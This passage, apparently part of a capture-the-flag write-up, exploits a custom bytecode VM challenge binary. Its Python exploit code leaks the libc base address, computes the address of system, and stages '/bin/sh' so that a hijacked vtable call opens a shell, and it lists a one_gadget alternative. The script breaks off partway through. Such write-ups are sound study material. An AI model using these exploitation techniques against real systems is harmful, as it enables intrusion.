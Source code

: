 ```c
    ((void (__fastcall *)(s_vm *, _QWORD))vm->vtable[v1])(vm, insn);
```

- Option 1: `system("/bin/sh")`

  Since `vm` == `&vm.vtable[0]`, if we overwrite `vm.vtable[0]` with the string
  of `/bin/sh` and overwrite `vm.vtable[1]` with `system` function address,
  this would just end up calling `system("/bin/sh")`

- Option 2: `one_gadget`

  Another way to pop a shell is to use this `one_gadget`.

  ```text
  0xe3b04 execve("/bin/sh", rsi, rdx)
  constraints:
    [rsi] == NULL || rsi == NULL
    [rdx] == NULL || rdx == NULL
  ```

```py
# $ pwn libcdb file ./libc.so.6
__libc_start_main_ret = 0x24083

bytecode = b""
# jump to insn @ 0x400 to leak libc
bytecode += VM_SET_R0(0x10, 0x400)

bytecode = bytecode.ljust((__libc_start_main_ret & 0xff) + 4, b"\x00")

# bytecode continuation after executing vm_rearrange_regs
for i in range(1, 6):
    bytecode += VM_AND_R_R_IMM(i, i, 0xFF)

# combine everything into one register r10
bytecode += VM_XOR_R_R_R(0x10, 0x10, 0x10)
for i in range(1, 6):
    bytecode += VM_SHL_R_R_IMM(0x10, 0x10, 0x8)
    bytecode += VM_ADD_R_R_R(0x10, 0x10, 6 - i)
bytecode += VM_SHL_R_R_IMM(0x10, 0x10, 0x8)

# set __libc_start_main_ret offset to r11
bytecode += VM_SET_R_16(0x11, 0x4000)
bytecode += VM_SET_R_32(0x11, 0x2)
bytecode += VM_SUB_R_R_R(0x10, 0x10, 0x11)
# now r10 = libc base address

system = libc.sym["system"]

bytecode += VM_XOR_R_R_R(0x15, 0x15, 0x15)
# set system function offset to r15
bytecode += VM_SET_R_16(0x15, system & 0xFFFF)
bytecode += VM_SET_R_32(0x15, (system >> 16) & 0xFFFF)
bytecode += VM_XOR_R_R_R(0x13, 0x13, 0x13)
bytecode += VM_ADD_R_R_R(0x13, 0x10, 0x15)

# set /bin/sh string to r14
bytecode += VM_XOR_R_R_R(0x14, 0x14, 0x14)
bytecode += VM_SET_R_16(0x14, u16(b"/b"))
bytecode += VM_SET_R_32(0x14, u16(b"in"))
bytecode += VM_SET_R_48(0x14, u16(b"/s"))
bytecode += VM_SET_R_64(0x14, u16(b"h\x00"))

# write 0x6f @ bytecode[0x4000]
# write 0x6e @ bytecode[0x4001]
bytecode += VM_XOR_R_R_R(0x11, 0x11, 0x11)
```